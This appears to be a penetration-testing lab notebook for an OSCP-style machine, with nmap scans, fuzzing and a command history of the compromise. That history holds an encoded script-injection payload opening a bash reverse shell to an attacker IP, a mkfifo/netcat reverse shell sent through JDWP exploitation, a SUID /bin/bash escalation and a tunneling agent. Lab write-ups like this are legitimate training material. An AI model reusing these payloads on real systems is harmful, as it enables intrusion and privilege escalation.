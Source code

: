 # 192.168.x.143
# Navigation
- [Summary](#summary)
- [Flags](#flags)
- [Accounts](#accounts)
- [Enumeration](#enumeration)
    - [NMAP](#nmap)
    - [Local Users](#local-users)
    - [Local Groups](#local-groups)
    - [System Info](#system-info)
    - [Routes](#routes)
    - [Netstat](#netstat)
    - [Environment Vars](#environment-vars)
    - [Domain Controller Info](#domain-controller-info)
- [Services](#services)
    - [API Endpoints](#api-endpoints)
- [Command History](#command-history)
# Summary
-
# Flags    
`Get-ChildItem -Path C:\ -Recurse -ErrorAction SilentlyContinue -Include local.txt,proof.txt`
`sudo find / -type f -iname "local.txt" 2>/dev/null`    
`sudo find / -type f -iname "proof.txt" 2>/dev/null`

- /home/dev/local.txt
- 

# Accounts
### username / password
`<connection method>`   
`whoami /priv`
```

```
`whoami /groups`
```

```
# Enumeration
## NMAP
`sudo nmap -sV 192.168.204.150 --top-ports 1000`
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http    Apache Tomcat (language: en)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```
`sudo nmap -A -T4 -p- 192.168.204.150`
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 ad:ac:80:0a:5f:87:44:ea:ba:7f:95:ca:1e:90:78:0d (ECDSA)
|_  256 b3:ae:d1:25:24:c2:ab:4f:f9:40:c5:f0:0b:12:87:bb (ED25519)
8080/tcp open  http    Apache Tomcat (language: en)
|_http-title: Site doesn't have a title (text/plain;charset=UTF-8).
|_http-favicon: Spring Java Framework
|_http-open-proxy: Proxy might be redirecting requests
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 143/tcp)
HOP RTT      ADDRESS
1   83.04 ms 192.168.45.1
2   82.99 ms 192.168.45.254
3   83.43 ms 192.168.251.1
4   83.54 ms 192.168.204.150

```
## Local Users
`Get-LocalUser`
```

```
## Local Groups
`Get-LocalGroup`
```

```
## System Info
`systeminfo`
```

```
## Routes
`route print`
```

```
## Netstat
`netstat -ano`
```

```
## Environment Vars
`Get-ChildItem Env:`
```

```
## Domain Controller Info
`nltest /dsgetdc:medtech`
```

```
# Services    
## API Endpoints
`gobuster dir -u http://192.168.133.143:80/api/ -w /usr/share/seclists/Discovery/Web-Content/common.txt`
```

```

`gobuster dir -u http://192.168.133.143:80/api/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -b 403`
```
```

`ffuf -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://192.168.133.143/FUZZ`
```

```
`ffuf -c -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -u http://192.168.133.143/FUZZ`
```
```

# Command History
```c
ffuf -u http://192.168.204.150:8080/FUZZ -w /usr/share/wordlists/dirb/common.txt -mc 200,403

curl http://192.168.204.150:8080/actuator

curl http://192.168.204.150:8080/search

curl -X PUT http://192.168.204.150:8080/shell.sh --data-binary @shell.sh

curl -X POST http://192.168.204.150:8080 -F "file=@shell.sh"

ffuf -u http://192.168.204.150:8080/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt

//set up listener
nc -lvnp 80
//get reverse shell
curl 'http://192.168.204.150:8080/search?query=%24%7Bscript%3Ajs%3Ajava%2Elang%2ERuntime%2EgetRuntime%28%29%2Eexec%28%5B%27bash%27%2C%27%2Dc%27%2C%27exec%20bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F192%2E168%2E45%2E186%2F80%200%3E%261%27%5D%29%7D'
// {"query":"${script:js:java.lang.Runtime.getRuntime().exec(['bash','-c','exec bash -i >& /dev/tcp/192.168.45.186/80 0>&1'])}","result":""}


curl -O http://192.168.45.186:80/jdwp-shellifier.py



// drop ligolo on it


python2 jdwp-shellifier.py -t 240.0.0.1 -p 8000 --cmd 'rm /tmp/f;mkfifo /tmp/f; cat /tmp/f|sh -i 2>&1|nc 192.168.45.186 90 >/tmp/f'
sudo python2 jdwp-shellifier.py -t 240.0.0.1 -p 8000 --break-on 'java.net.ServerSocket.accept' --cmd '/tmp/chpasswd'

./lin_agent -connect 192.168.45.186:443 -retry -ignore-cert

nc -v 192.168.204.150 5000 -z

python2 jdwp-shellifier.py -t 127.0.0.1 -p 8001 --cmd "chmod u+s /bin/bash"

```
snmpwalk -v2c -c public 192.168.150.149 NET-SNMP-EXTEND-MIB::nsExtendObjects

We can see that Root is debugging a Java application, we can even read the source:

dev@oscp:~$ cat /opt/stats/App.java
cat /opt/stats/App.java
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.ServerSocket;
import java.net.Socket;
 
class StatsApp {
    public static void main(String[] args) {
        System.out.println("System Stats\n");
        Runtime rt = Runtime.getRuntime();
        String output = new String();
 
        try {
            ServerSocket echod = new ServerSocket(5000);